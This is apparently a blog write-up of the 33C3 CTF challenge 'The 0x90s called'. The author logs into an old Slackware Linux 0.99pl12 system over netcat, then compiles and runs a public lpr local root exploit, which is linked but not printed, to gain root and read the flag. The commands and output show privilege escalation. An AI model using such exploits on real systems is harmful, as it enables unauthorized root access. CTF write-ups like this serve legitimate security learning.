

### **Description:**

> **The 0x90s called &#8211; PWN**
> 
> The 0x90s called, they want their vulns back!  
> [Pwn this and get the flag.][1] Who would&#8217;ve thought?  
> If you want to try it locally first, [check this out][2].

This challenge was pretty simple and obvious. We are given with a website that is requesting a &#8216;proof of work&#8217; from us to reduce the load on their infrastructure. We need to press start and then we get a port to which we can connect using `netcat`, username and password. We connect to the server and search for the flag.

```sh
Megabeets:~# nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ls -la / | grep flag
-r--------   1 root     root           36 Dec 27  1916 flag.txt
slack:~$
```


Look at the highlighted rows. We can see that we are in _Slack Linux 0.99pl12_ machine, that _flag.txt_ is on the root folder and that only _root_ can read it. Before trying anything special or complicated, lets search online for known exploit to this version.

[][3]Oh, this was easy! There&#8217;s a known exploit available on _Github_.


Lets run it to see if it works, and if so read the flag.

```sh
slack:~$ gcc exploit.c -o exploit
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ./exploit
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```


&nbsp;

It worked just fine (thanks [prdelka][4] for the exploit)! We got _root_ permissions and were able to read the flag.  
**Flag**: _33C3\_Th3\_0x90s\_w3r3\_pre3tty_4w3s0m3_

I’ll be happy to read in the comments how the challenge was for you.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan">Eat Veggies</a>
  </p>
</div>

 [1]: http://78.46.224.70:8080/
 [2]: https://33c3ctf.ccc../qemu-xmas-slackware.tar.xz
 [3]: http://www.megabeets.n./90s_called_1.png
 [4]: https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c